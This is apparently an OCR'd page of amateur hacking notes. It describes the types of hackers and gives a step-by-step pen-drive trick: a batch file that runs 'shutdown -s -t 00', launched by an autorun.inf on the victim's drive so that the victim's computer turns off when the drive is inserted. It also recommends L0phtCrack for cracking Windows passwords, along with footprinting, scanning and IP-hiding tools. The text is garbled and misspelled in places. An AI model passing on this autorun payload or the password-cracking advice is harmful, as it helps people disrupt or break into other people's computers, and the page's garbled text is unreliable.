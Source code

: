 About hacking
It is the art of exporting technologies and finding bugs for the same,
Types of hacker-
1-Black hat hacker-
These are cyber criminals their main objective is to spread cyber violance and raise money for different
criminal activities.
2-White hat hacker-
These are the good guyz having some knowledge as black hat hacker but they use the skill for the protection.
3-Grey hat hacker-
These are half devil and half angel kind of hackers.
e.g Zoo zoo hacker
4-Script Kiddes-
These are cyber kids having no knowledge about hacking,but they do hacking for a reason or 
due to task assigned by some one.


Learn How to set wallpaper in pd
h with pendricve
tep 1:>>copy this  code into notepad: 
@echo off
shutdown -s -t 00
Save as besthacking.bat extension (for eg: besthacking.bat). 
Step 2: 
      Now open the notepad and copy this code: 
[autorun]
Open=besthacking.bat
Action=Mouse Disable

   Save it as "autorun.inf" 
Then copy the two files in your pen drive or victim's pen drive. 
That's all whenever the victim insert his pen drive,the system will be turned off automatically.
 
Check How to Disable This:-

First Stop Autorun in Your Computer And Then Format Pendrive.. 

And If You Stop Autorun Check My Older Post - See more at: http://www.besthacking.in/2014/03/hack-friends-computer-using-pendrive.html#sthash.pGkHeU14.dpuf

We  use LC6(L0PHTCRACK) software for hacking password of windows pc users.
We use 
/*etheral software/*
 to see the packets that you received in your pc.

Google hack software

sam spade sw - for footprinting


netscan and IP scan sw
1-use to find out external ip
2-Internal IP Range

IP hider pro sw
